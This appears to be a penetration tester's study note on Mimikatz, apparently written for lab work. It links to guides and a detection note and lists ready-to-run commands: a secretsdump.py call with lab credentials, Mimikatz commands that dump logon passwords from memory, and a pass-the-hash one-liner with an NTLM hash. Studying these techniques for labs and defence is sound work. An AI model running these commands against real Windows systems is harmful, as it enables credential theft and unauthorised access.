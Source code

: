 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Tooling
---
```


[Home · gentilkiwi/mimikatz Wiki · GitHub](https://github.com/gentilkiwi/mimikatz/wiki)
## Guide

1. [Mimikatz – Active Directory Security](https://adsecurity.org/?page_id=1821)
2. [Mimikatz | HackTricks | HackTricks](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz)

For Linux systems see a Python implementation: [pypykatz](https://github.com/skelsec/pypykatz)
## Walkthrough 

1. See [[System Monitor (Sysmon)#Detection Example 3 Detecting Credential Dumping]]

## Secrets Dump

```
secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```

## Dump Passwords

```cmd
privilege::debug
sekurlsa::logonpasswords
```
## Pass the Hash

Mimikatz has a module named `sekurlsa::pth` that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password. To use this module, we will need the following:

- `/user` - The user name we want to impersonate.
- `/rc4` or `/NTLM` - NTLM hash of the user's password.
- `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
- `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).

```cmd-session
 mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

